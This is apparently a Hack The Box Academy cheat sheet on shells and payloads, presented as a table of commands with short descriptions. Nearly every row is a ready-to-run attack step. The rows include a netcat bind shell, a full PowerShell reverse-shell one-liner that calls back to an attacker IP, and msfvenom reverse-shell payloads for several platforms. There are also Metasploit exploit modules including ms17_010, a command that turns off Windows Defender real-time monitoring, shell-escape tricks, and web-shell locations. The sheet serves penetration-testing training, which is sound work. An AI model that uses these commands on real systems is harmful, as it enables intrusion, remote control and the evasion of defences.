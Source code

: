 ## Commands

| Command | Description |
|---------|-------------|
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol |
| `env` | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use |
| `sudo nc -lvnp <port #>` | Starts a netcat listener on a specified port |
| `nc -nv <ip address of computer with listener started><port being listened on>` | Connects to a netcat listener at the specified IP address and port |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell (/bin/bash) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on |

| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | Powershell one-liner used to connect back to a listener that has been started on an attack box |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | Powershell command using to disable real time monitoring in Windows Defender |
| `use exploit/windows/smb/psexec` | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing smb & psexec |
| `shell` | Command used in a meterpreter shell session to drop into a system shell |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf` | MSFvenom command used to generate a linux-based reverse shell stageless payload |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe` | MSFvenom command used to generate a Windows-based reverse shell stageless payload |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho` | MSFvenom command used to generate a MacOS-based reverse shell payload |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | MSFvenom command used to generate a ASP web reverse shell payload |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp` | MSFvenom command used to generate a JSP web reverse shell payload |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war` | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload |
| `use auxiliary/scanner/smb/smb_ms17_010` | Metasploit exploit module used to check if a host is vulnerable to ms17_010 |
| `use exploit/windows/smb/ms17_010_psexec` | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010 |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce` | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting rConfig 3.9.6 |
| `python -c 'import pty; pty.spawn("/bin/sh")'` | Python command used to spawn an interactive shell on a linux-based system |
| `/bin/sh -i` | Spawns an interactive shell on a linux-based system |
| `perl —e 'exec "/bin/sh";'` | Uses perl to spawn an interactive shell on a linux-based system |
| `ruby: exec "/bin/sh"` | Uses ruby to spawn an interactive shell on a linux-based system |
| `Lua: os.execute('/bin/sh')` | Uses Lua to spawn an interactive shell on a linux-based system |
| `awk 'BEGIN {system("/bin/sh")}'` | Uses awk command to spawn an interactive shell on a linux-based system |
| `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;` | Uses find command to spawn an interactive shell on a linux-based system |
| `find . -exec /bin/sh \; -quit` | An alternative way to use the find command to spawn an interactive shell on a linux-based system |
| `vim -c ':!/bin/sh'` | Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells" |
| `ls -la <path/to/fileorbinary>` | Used to list files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute |
| `sudo -l` | Displays the commands that the currently logged on user can run as sudo |
| `/usr/share/webshells/laudanum` | Location of laudanum webshells on ParrotOS and Pwnbox |
| `/usr/share/nishang/Antak-WebShell` | Location of Antak-Webshell on Parrot OS and Pwnbox |
